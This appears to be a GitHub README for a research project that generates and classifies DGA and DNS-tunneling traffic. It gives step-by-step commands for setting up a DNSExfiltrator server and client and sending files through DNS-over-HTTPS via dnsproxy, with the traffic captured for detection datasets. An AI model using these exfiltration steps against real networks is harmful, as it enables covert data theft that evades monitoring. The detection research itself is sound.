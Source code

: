 # Generation and Classification of DGA and DNS Tunneling Traffic

This project focuses on simulating, capturing, and analyzing Domain Generation Algorithm (DGA) and DNS tunneling traffic. It provides a framework to study malicious DNS traffic patterns and train models or tools for classification and detection.

## 📌 Objectives

- Generate DNS tunneling traffic using various tools.
- Simulate DGA traffic patterns.
- Capture and analyze DNS queries and responses.
- Classify DGA vs. DNS tunneling traffic.

## 🧰 Tools and Software Used

| Tool           | Purpose                                                                 |
|----------------|-------------------------------------------------------------------------|
| [DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) | Generate DNS tunneling traffic (data exfiltration). |
| [dnsproxy](https://github.com/AdguardTeam/dnsproxy)       | DNS proxy server supporting DoH, DoT, DoQ, DNSCrypt. |
| [CoreDNS](https://coredns.io/)                            | Pluggable DNS server for collecting and logging DNS queries. |
| [doh-server](https://github.com/m13253/dns-over-https)    | DNS-over-HTTPS server for simulating encrypted DNS traffic. |
| [dohlyzer](https://github.com/ahlashkari/DoHLyzer)           | Analyzes DoH traffic to detect anomalies and exfiltration. |

## 🛠️ Installation


### DNSExfiltrator setup

DNSExfiltrator is a proof-of-concept (PoC) tool designed to demonstrate how data can be exfiltrated over the DNS protocol. It works by encoding data into DNS queries, which are sent to an attacker-controlled domain. A DNS server controlled by the attacker decodes the incoming queries and reconstructs the original data.
This technique is commonly used in real-world scenarios where traditional outbound channels (HTTP, FTP, etc.) are monitored or blocked, but DNS traffic is still permitted. DNSExfiltrator helps simulate this behavior for research, detection, and defense testing.

In this project, DNSExfiltrator is used to generate labeled examples of DNS tunneling traffic. We use DNSExfiltrator to send 100 txt files over DNS to our remote server. We use DNS-over-HTTPS (DoH) protocol to send data. 

#### Requirements

- DNS Server and Domain (we used dohe.live and tunnel.dohe.live for dga and dns tunneling respectively)
- DNSExfiltrator 
- dnsproxy
- doh-server
- Coredns

#### SERVER SETUP

- First we setup our server on any virtual machine.
  System version : Ubuntu 22.04
  
#### Coredns Installation: 

Install go version 1.21.4

```bash
sudo install golang-go
```

Install coredns from https://github.com/coredns/coredns

```bash
git clone https://github.com/coredns/coredns
cd coredns
make
```

or Install binary directly from https://github.com/coredns/coredns/releases/tag/v1.12.1

```bash
# Download the CoreDNS archive
wget https://github.com/coredns/coredns/releases/download/v1.12.1/coredns_1.12.1_linux_amd64.tgz

# Extract the archive
tar -xvzf coredns_1.12.1_linux_amd64.tgz
```

```bash
# Move the binary to /usr/local/bin (optional but recommended)
sudo mv coredns /usr/local/bin/

# Make sure it's executable (if needed)
sudo chmod +x /usr/local/bin/coredns

# Verify installation
coredns -version
```

Create Corefile inside /etc/coredns/

Corefile:
```
tunnel.dohe.live {
    file /etc/coredns/db.dohe.live
    log
    errors
}
```

Create db.dohe.live file inside /etc/coredns/

db.dohe.live :
```
$ORIGIN tunnel.dohe.live.
$TTL 60
@   IN  SOA ns1.dohe.live. admin.dohe.live. (
        2025042601 ; serial
        3600       ; refresh
        1800       ; retry
        604800     ; expire
        60         ; minimum
    )
    IN  NS  ns1.dohe.live.
    IN  A   XX.XX.XX.XX
```

Use your own domain name in place of dohe.live and the server ip address in A.

Run coredns: 

```bash
coredns --conf Corefile
```

verify using 

```bash
dig tunnel.dohe.live
```

if it returns your server ip, everything is set up correctly.


#### DNSExfiltrator Installation : 

install python version 2.7 and pip for python2: 

```bash
sudo apt update
sudo apt install python2
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
```

Install DNSExfiltrator :

```bash
git clone https://github.com/Arno0x/DNSExfiltrator
cd DNSExfiltrator
python2 -m pip install -r requirements.txt
```

Run DNSExfiltrator server using :

```bash
 python2 dnsexfiltrator.py -d tunnel.dohe.live -p password
```

check if port 53 is being used and kill any processes running on port 53

```bash
sudo systemctl stop systemd-resolved
```

The server is now setup and any computer can send files via dns-over-https to the server using tunnel.dohe.live as domain.
Users can change domain name and password as needed.


#### CLIENT SETUP

#### DNSExfiltrator Installation: 

System requirements : Windows, powershell

```bash
git clone https://github.com/Arno0x/DNSExfiltrator
cd DNSExfiltrator
```

To Run DNSExfiltrator (from DNSExfiltrator/release directory):

```powershell
./dnsExfiltrator.exe <file name> <domain> <password>
```

To send 100 text files we use the scripts inside DNSExfiltrator.
gen_data.sh -> generates 100 random txt files
exfil_data.sh -> sends the 100 txt files to our server continously for 8 hours.

We send these files over DoH and capture the traffic using wireshark.

To send them over DoH we need dnsproxy, which sends all DNS Traffic over https using adgurad or google dns servers.

#### dnsproxy Installation: 

There are several options how to install dnsproxy.

- Grab the binary for your device/OS from the [Releases](https://github.com/AdguardTeam/dnsproxy/releases) page.
- using make build from the following repo: [dnsproxy](https://github.com/AdguardTeam/dnsproxy)


Usage : 

Run dnsproxy using :

```bash
dnsproxy.exe -l 127.0.0.1 -p 53 -u https://dns.adguard.com/dns-query -b 8.8.8.8:53
```
or
```bash
dnsproxy.exe -l 127.0.0.1 -p 53 -u https://dns.google/dns-query -b 8.8.8.8:53
```

this run dnsproxy on localhost port 53 and sends all dns requests upstream to adguard or google server over https.
It forwards all requests to tunnel.dohe.live to our server where DNSExfiltrator is running.


